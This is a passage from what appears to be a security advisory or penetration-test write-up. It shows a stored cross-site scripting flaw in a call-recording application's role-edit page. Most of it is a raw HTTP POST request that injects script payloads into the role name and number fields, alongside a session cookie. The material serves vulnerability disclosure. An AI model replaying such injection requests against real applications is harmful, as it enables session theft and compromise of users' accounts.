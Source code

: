 
### XSS(4) - Stored XSS in “/callrec/roleEditAction.do” page
Request:
```
POST /callrec/roleEditAction.do HTTP/1.1
Host: xxx.xxxxx.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://xxx.xxxxx.net/callrec/group_edit.jsp?viewRoleId=8
Content-Type: application/x-www-form-urlencoded
Content-Length: 451
Cookie: JSESSIONID=DD8E62B3FC844E4EFAA01439E6194493; m=2258:Y2FsbHJlYzpjYWxscmVj
Connection: close
Upgrade-Insecure-Requests: 1

org.apache.struts.taglib.html.TOKEN=7e772bb6a1e21d529fe4fa86010b5b62&userId=5&originalName=%3Cscript%3Ealert%28%22XSSName%22%29%3C%2Fscript%3E&roleId=8&name=<script>alert("XSSName")</script>&parentId=3&number=<script>alert("XSSNumber")</script>&actionId=9&actionId=11&actionId=8&actionId=7&actionId=10&actionId=4&actionId=6&actionId=1&actionId=16&viewId=9%7C11%7C8%7C7%7C10%7C4%7C6%7C1%7C16%7C&description=&value%28filter_1%29=-1&value%28conj_1%29=END
```
![](Zoom-XSS(4)1.png)